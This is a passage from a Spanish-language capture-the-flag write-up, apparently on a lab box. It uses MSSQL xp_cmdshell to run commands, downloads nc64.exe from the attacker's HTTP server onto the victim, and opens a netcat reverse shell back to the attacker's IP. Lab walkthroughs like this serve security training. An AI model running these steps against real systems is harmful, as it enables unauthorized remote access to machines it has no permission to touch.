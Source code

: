 Una vez configurado ya podemos ejecutar comandos:

```powershell
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL>
```


## Estableciendo una reverse shell

Ahora ya podemos tratar de establecer una reverse shell. Para ello utilizaremos el binario `nc64.exe`, pero antes debemos ver en qué ruta subirlo:

```powershell
xp_cmdshell "powershell -c pwd"
```

Nos diche estamos en `C:\Windows\system32`, por lo que debemos cambiar dicha ruta antes de subir el [binario](https://github.com/int0x33/nc.exe/blob/master/nc64.exe), haciendo uso de wget y de un servidor http con python:

```shell
#En nuestra máquina
sudo python3 -m http.server 80
```
```powershell
#En la máquina victima
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<nuestra ip>/nc64.exe -outfile nc64.exe"
```

Comprobamos que el servidor python recibe la petición:

```shell
10.129.238.95 - - [07/Feb/2023 22:41:50] "GET /nc64.exe HTTP/1.1" 200 -
```

Ya sólo falta ponernos en escucha con netcat y ejecutar el binario devolviéndonos una `cmd.exe`:

```shell
#Nuestra máquina
sudo nc -lvnp 443
```
```powershell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe  
<nuestra ip> 443"
```

El parámetro `-e` indica que tras conectarnos queremos ejecutar dicho archivo, en este caso una cmd. Una vez lo ejecutemos deberíamos tener una shell en la pestaña donde corría netcat. La flag del usuario debería estar en `C:\Users\sql_svc\Desktop`:
